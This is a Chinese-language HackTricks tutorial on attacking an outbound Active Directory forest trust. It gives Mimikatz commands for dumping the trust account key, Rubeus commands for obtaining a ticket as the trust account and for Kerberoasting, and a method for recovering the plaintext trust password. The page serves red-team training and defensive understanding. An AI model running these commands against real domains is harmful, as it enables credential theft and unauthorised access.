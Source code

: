 # 外部森林域 - 单向（出站）

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

在此场景中 **您的域** 正在 **信任** 来自 **不同域** 的某些 **权限**。

## 枚举

### 出站信任
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

当在两个域之间建立信任关系时，存在安全漏洞，这里将其称为域 **A** 和域 **B**，其中域 **B** 将其信任扩展到域 **A**。在这种设置中，在域 **A** 中为域 **B** 创建了一个特殊账户，该账户在两个域之间的身份验证过程中发挥着关键作用。与域 **B** 关联的此账户用于加密访问跨域服务的票证。

这里需要理解的关键点是，可以使用命令行工具从域 **A** 的域控制器中提取此特殊账户的密码和哈希。执行此操作的命令是：
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
此提取之所以可能，是因为该账户在其名称后带有 **$**，处于活动状态，并且属于域 **A** 的“域用户”组，从而继承了与该组相关的权限。这使得个人可以使用该账户的凭据对域 **A** 进行身份验证。

**警告：** 利用这种情况可以作为用户在域 **A** 中获得立足点，尽管权限有限。然而，这种访问足以对域 **A** 进行枚举。

在 `ext.local` 是信任域而 `root.local` 是被信任域的场景中，将在 `root.local` 中创建一个名为 `EXT$` 的用户账户。通过特定工具，可以转储 Kerberos 信任密钥，从而揭示 `root.local` 中 `EXT$` 的凭据。实现此目的的命令是：
```bash
lsadump::trust /patch
```
在此之后，可以使用提取的 RC4 密钥通过另一个工具命令以 `root.local\EXT$` 身份在 `root.local` 中进行身份验证：
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
此身份验证步骤打开了枚举甚至利用 `root.local` 中服务的可能性，例如执行 Kerberoast 攻击以提取服务帐户凭据，使用：
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### 收集明文信任密码

在之前的流程中，使用了信任哈希而不是**明文密码**（该密码也被**mimikatz**提取）。

明文密码可以通过将mimikatz的\[ CLEAR ]输出从十六进制转换并去除空字节‘\x00’来获得：

![](<../../.gitbook/assets/image (938).png>)

有时在创建信任关系时，用户必须输入信任的密码。在这个演示中，密钥是原始信任密码，因此是人类可读的。随着密钥的循环（30天），明文将不再是人类可读的，但在技术上仍然可用。

明文密码可以用作信任账户进行常规身份验证，作为使用信任账户的Kerberos密钥请求TGT的替代方案。在这里，从ext.local查询root.local的Domain Admins成员：

![](<../../.gitbook/assets/image (792).png>)

## 参考文献

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**Telegram群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}

